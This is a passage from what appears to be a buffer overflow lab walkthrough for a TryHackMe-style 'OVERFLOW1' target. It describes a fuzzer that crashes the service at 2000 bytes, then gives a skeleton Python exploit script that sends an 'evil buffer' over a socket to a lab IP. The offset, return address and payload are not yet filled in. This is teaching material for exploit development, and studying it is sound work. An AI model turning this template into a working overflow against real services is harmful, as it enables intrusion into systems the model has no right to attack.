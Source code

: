 ### What does this script do?

* This fuzzer will send an increasingly long string of "A's"
* If the fuzzer is able to crash the program with that set of strings, the fuzzer will exit with an error message
* <mark style="color:yellow;">MAKE A NOTE OF THE LARGEST NUMBER OF BYTES THAT WERE SENT</mark>

### Running the script

<figure><img src="../../../.gitbook/assets/image (9) (2) (1).png" alt=""><figcaption></figcaption></figure>

* We get an error message that the <mark style="color:yellow;">fuzzing crashed at 2000 bytes</mark>

## Crash Replication and Controlling EIP

* Create a file on Kali called <mark style="color:yellow;">01exploit.py</mark> with the following contents:

```
import socket

ip = "10.10.253.98"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```